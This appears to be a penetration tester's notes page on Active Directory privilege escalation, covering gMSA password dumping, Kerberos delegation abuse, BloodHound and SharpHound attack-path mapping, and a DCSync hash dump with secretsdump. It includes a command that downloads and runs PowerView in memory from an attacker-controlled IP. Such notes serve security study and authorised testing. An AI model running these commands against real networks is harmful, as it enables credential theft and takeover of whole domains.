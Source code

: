 ```yaml
---
description: Active Directory Privilege Escalation
---
```


# Active Directory

## **Group Managed Service Accounts (gMSA)**

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.

If you have access to a user account who has permissions to read the managed password, then you can do so like this:

**WARNING: gMSADumper.py gets the password HASH**. You can also get the actual password though, I think, using other tools.

```
# https://github.com/micahvandeusen/gMSADumper
python3 gMSADumper.py -u User -p Password1 -d domain.local
```

You can also use a **hash** instead of a password with gMSADumper.

If you're not sure whether you can read managed passwords, then the attribute you need to look for in Ad is **msDS-GroupMSAMembership (PrincipalsAllowedToRetrieveManagedPassword)**. It stores the security principals that can access the GMSA password.



**TrustedToAuthForDelegation**

{% embed url="https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/" %}

If an AD user has the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** (constrained delegation) or **ADS\_UF\_TRUSTED\_FOR\_DELEGATION** (unconstrained delegation) field set in their userAccountControl, then they can request tickets on behalf of other users, without knowing their password.&#x20;

* **Unconstrained** - you can request a ticket for any service as any user that doesn't have ‘Account is sensitive and cannot be delegated’ enabled.
  * If a user cannot be delegated, then it has **NOT\_DELEGATED** in its userAccountControl attribute
* **Constrained** - you can request a ticket for a specific service as any user that doesn't have ‘Account is sensitive and cannot be delegated’ enabled.
  * Specifically, you can request a service ticket to any SPN specified in msds-allowedtodelegateto.

### **Enumeration**

You could use PowerView’s **-TrustedToAuth** flag for **Get-DomainUser/Get-DomainComputer**. Look at [harmj0y's post](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) to see the full command.

Alternatively, if you dumped the active directory with something like [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump), then you might also notice the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** or **ADS\_UF\_TRUSTED\_FOR\_DELEGATION** flags.

### **Exploitation**

Sources:

* Exploit using [Windows-based tools](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
* Exploit using [Linux-based tools](https://labs.f-secure.com/archive/trust-years-to-earn-seconds-to-break/)

## **Pivoting Using Bloodhound**

You can use BloodHound to find active directory attack paths.

### **BloodHound Installation**

You can download it from apt in kali. For the latest version, though, download the github repo:

{% embed url="https://github.com/BloodHoundAD/BloodHound" %}

Also download the executable from Releases (linux x64).

For instructions on how to set it up, take a look at Ippsec's video on HackTheBox Forest at \~46 minutes.

{% embed url="https://youtu.be/H9FcE_FMZio?t=2660" %}

### **Setup and graph generation**

First, you have to start up the neo4j console.&#x20;

```
sudo neo4j console
```

Then, you can run the bloodhound GUI application.

Default credentials for neo4j are **neo4j:neo4j** (unless you changed them). If it's your first time running neo4j, you need to change the credentials.

To actually get the data into BloodHound, you need to run SharpHound.exe on a compromised windows machine.

Find the executable in your Linux machine:

```
locate SharpHound.exe
```

For me it was in `/usr/lib/bloodhound/resources/app/Collectors/`.

Transfer sharphound to the compromised machine and run it.&#x20;

```
./SharpHound.exe -c all
```

Afterwards, send the generated file back to your linux box.

Open up a file manager and drag-and-drop the generated zip file into the bloodhound GUI. It will extract and import.

### **Using BloodHound**

First, search for the user you have compromised in the top filter, right click it and mark the user as owned.

Open up the menu at the top and click on "Analysis" (may also be "Queries"). It's a tab in the Database Info menu. For example, you can do "Shortest Paths to domain admins from Kerberoastable Users" if you're looking to kerberoast something. If you're looking to go from an owned user to ad admin, then select "shortest path to domain admin from owned principals". The "all interesting paths" option is the useful query for the general term.

For each node connection, you can right click and click "info". That specifies what the permission does, as well as how to abuse it with copy-pastable commands (though you might have to tweak them to get them to work sometimes). Most of the commands use PowerView (**the version from the dev branch!**) - A link to powerview is provided in the **References tab**.

Use this command if you've got powerview downloaded to the machine:&#x20;

```
Import-Module ./PowerView.ps1
```

Or this command to import the functions over HTTP:

```
IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/PowerView.ps1')
```

## **DC Sync Attack**

### **Cause and background info**

Domain controllers need to replicate information between each other. If a user's password was changed, then that change needs to be replicated in every domain.

So, if we can get DCSync capabilities, then we can just ask another domain controller to replicate over a user's password data. The permission's name is "Replicating Directory Changes" and "Replicating Directory Changes All", and domain controllers have that permission. Those two permissions are the ones we need for this attack.

The main difficulty lies in getting those two permissions for the attack. The most common way is through the Microsoft Exchange Windows Permissions group. If you install MS Exchange, then it integrates with AD and adds a load of permissions. One of the things it adds is the group MS Exchange permissions. It grants that group permission to modify permissions on the root of this domain. If you can get into that group, then you will have permission to modify those permissions.

### **Exploitation**

If you've managed to get the two permissions needed, then you can go forward with the attack.&#x20;

Use Impacket's secretsdump script. In this example, the user "USER\_NAME" has the two permissions needed. The script will ask you for the password.

```
secretsdump.py DOMAIN_NAME/USER_NAME@IP_ADDRESS
```

The script gives you a list of all the users in the domain, along with their password hash (LM/NTLM). You can then use that hash for pass-the-hash.
